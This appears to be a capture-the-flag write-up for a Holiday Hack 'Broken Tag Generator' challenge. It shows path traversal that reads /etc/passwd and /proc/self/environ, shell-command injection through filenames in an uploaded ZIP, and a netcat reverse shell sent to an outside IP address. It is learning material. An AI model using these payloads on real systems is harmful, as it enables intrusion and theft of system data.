 # Objective 8: Broken Tag Generator
Location: Wrapping Room

The objective is to obtain the value of the environment variable `GREETZ` of the [Tag Generator](https://tag-generator.kringlecastle.com/).

## Solution using Path Traversal

It was found that the image download function allows path traversal:
```
curl https://tag-generator.kringlecastle.com/image?id=../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
[...]
```
Using this the value of the environment variable can be obtained like this:
```
curl https://tag-generator.kringlecastle.com/image?id=../../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
So the `GREETZ` variable contains **JackFrostWasHere**

## Solution using RCE

The [Ruby application code](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-8/app.rb) can be downloaded through the above path traversal (the full path of `app.rb` is displayed in the application's error messages):
```
curl https://tag-generator.kringlecastle.com/image?id=../../app/lib/app.rb --output app.rb
```
The application code allows to place uploaded files in a chosen place on the remote system using the ZIP upload function.
Furthermore the application starts the `convert` tool from  ImageMagick which makes it possible to inject shell commands:
```
jsw@io:*$ touch \'\;env\>joergen\;\'.jpg
jsw@io:*$ zip joergen.zip \'\;env\>joergen\;\'.jpg 
  adding: ';env>joergen;'.jpg (stored 0%)
jsw@io:*$ curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
["7ebc17be-a3ea-48f5-95ea-730e1b006520.jpg"]
jsw@io:*$ curl https://tag-generator.kringlecastle.com/image?id=../tmp/joergen
RUBY_MAJOR=2.7
GREETZ=JackFrostWasHere
[..]
```

## Full Interactive Remote Shell
**option 1**
Create a ZIP file including an empty jpg file:
```
touch joergen.jpg
zip joergen.zip joergen.jpg
```
Modify the contained filename to one with the shell command for the reverse shell (filename needs to end with an image extention as the application checks for that):
```
printf "@ joergen.jpg\n@=\';nc <your IP address> 4444 -e \`which bash\`;#'.jpg\n" | zipnote -w joergen.zip
```

**option 2**
```
touch \'\;nc\ <your IP address68\ 4444\ -e\ \`which\ bash\`\;\'.jpg
zip joergen.zip \'\;nc\ 93.211.51.68\ 4444\ -e\ \`which\ bash\`\;\'.jpg
```

Start the reverse shell listener on your local device:
```
nc -lnvp 4444
```
Get it started:
```
curl https://tag-generator.kringlecastle.com/upload -F'my_file[]=@joergen.zip'
```
Now you have in the reverse shell listener an interactive shell as user `app`.
The user `app` has write access to `/tmp` and `/home/app`.
In addition the user has write access to `/usr/local/bundle`, where the web server is located.
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQzNjYyNzQwMywxNDQwMDk3MDgzLC05Mz
U4MTMyODgsLTYxMzQ0OTY1NiwtMTA1MjE2MzYxNywtMTc2MzU0
MTM1NSwxNjA3MzQ4NTE0LC04MjMwNTA4NjEsMTI5MzcyMDQzOS
wxMzk1Nzk0ODI0LC0xNTk5MjU0NDE1LC02MTkyOTc0MTEsLTU3
NjYxMDA3NSwyMTA3NTI5ODQ2LDkyMjE0NDM1LC0zOTg0OTE0Nj
EsMTE1MTU1Njg5NiwyMzg0NjAyNzIsMTkzMzM2MTc4NywtMTQ2
NzYxNTI2Ml19
-->